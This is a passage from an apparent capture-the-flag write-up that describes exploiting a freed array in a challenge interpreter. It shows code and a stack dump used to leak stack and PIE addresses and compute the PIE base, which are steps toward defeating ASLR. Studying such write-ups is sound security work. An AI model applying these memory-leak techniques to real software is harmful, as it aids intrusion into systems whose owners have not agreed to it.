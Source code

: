 As it turns out, the linux kernel (due to cache reasons) randomizes the offset of the stack pointer from the end of the page as well!
This means, we cannot reliably determine the base of our stack.
I spent a lot of time during the CTF trying to figure out why my calculations were off, until two debugging sessions revealed that rsp was being randomized.
So what can we do instead?

### Locating our array in memory anyways

Luckily, since local variables are also stored on the stack, we can easily locate the address of our array.
To do this, I created a two level deep function, that had some "placed" local variables and printed the stack then:

```python
# leak stuff, if we give it the freed array
def deeper(a):
    # a2 should be between c and d in the stack dump
    c = 0x43434343
    a2 = a
    d = 0x44444444
    print_arr(a)
    # 999 identified thanks to printing
    return fetch(a, 999)

def leak_array_stack(a):
    b = 0x42424242
    # b = array(10)
    return deeper(a)

def main():
    a = create_freed_array()
    leak_array_stack(a)
```

The output of the above is as follows:

```
0 0, 1 0, 2 0, 3 0, 4 0, ..., 975 7fffe51ba228, 976 564eb04fb12d, 977 1, 978 7fffe51ba248, 979 7fffe51ba248, 980 564eb04fb12d, 981 1, 982 7fffe51ba268, 983 7fffe51ba268, 984 564eb04fb12d, 985 3d9, 986 7fffe51ba288, 987 564eb04fb2a6, 988 3dc, 989 7fffe51b8390, 990 7fffe51ba2a8, 991 3df, 992 564eb04fb38a, 993 7fffe51b8390, 994 7fffe51ba2d8, 995 44444444, 996 7fffe51b8390, 997 43434343, 998 564eb04fb3c0, 999 7fffe51b8390,
```

Thanks to this, we can see that both index `996` and `999` point to our stack buffer.

Using a similar technique for figuring out a PIE address's index, we can also leak that:

```python
def pie_deeper(a):
    return fetch(a, 999)

def leak_pie_addr(a):
    return pie_deeper(a)

def main():
    a = create_freed_array()
    # print_arr(a)
    array_stack_addr = leak_array_stack(a)
    pie_addr = leak_pie_addr(a)
    pie_base = pie_addr - 0x13f2
```

